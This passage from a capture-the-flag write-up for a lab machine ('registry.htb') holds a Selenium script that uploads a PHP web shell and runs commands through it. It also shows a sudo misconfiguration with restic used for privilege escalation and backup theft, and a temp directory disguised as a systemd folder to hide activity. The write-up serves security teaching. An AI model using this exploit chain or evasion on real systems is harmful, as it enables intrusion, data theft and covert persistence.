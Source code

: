 ```python
actions.send_keys(Keys.RETURN)
actions.perform()

print("[+] Saving config")
form_btn_element.click()

# upload php file
client.get(UPLOAD_URL)
Alert(client).accept()
client.get(UPLOAD_URL)
client.get(UPLOAD_URL)

select_element = client.find_element_by_id("file_upload_select")
upload_element = client.find_element_by_id("file_upload_upload")

select_element.send_keys(PAYLOAD_PATH)
print("[+] Uploading", PAYLOAD_PATH)
upload_element.click()
client.close()

print("[+] Executing command")
# call php payload and execute payload
resp = requests.get(PAYLOAD_URL, params={"cmd": COMMAND})
print("[+] Got response!")
print(resp.text)
```

While getting [Selenium](https://www.selenium.dev/documentation/webdriver/getting_started/) to work increases the initial effort to get the PoC to run, it makes the payload delivery way more reliable. And indeed, using the script, we get access. Executing it with `sudo -l`:

```
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

As `www-data`, we can run `restic `as root, which theoretically allows us to steal the backup files. We have to host a [restic](https://github.com/restic/rest-server) server for that. So we download the repo to our localhost first. To hide our activity from other nosy users on the box, we create some weird temp directory that looks like a system-internal one:

```sh
$ mkdir -p /tmp/systemd-private-00x-systemd-resolver.service/
```

Then we upload the restic server from our localhost to the box:

```sh
$ scp -i ~/registry/registry-root.key rest-server bolt@registry.htb:/tmp/systemd-private-00x-systemd-resolver.service/
```
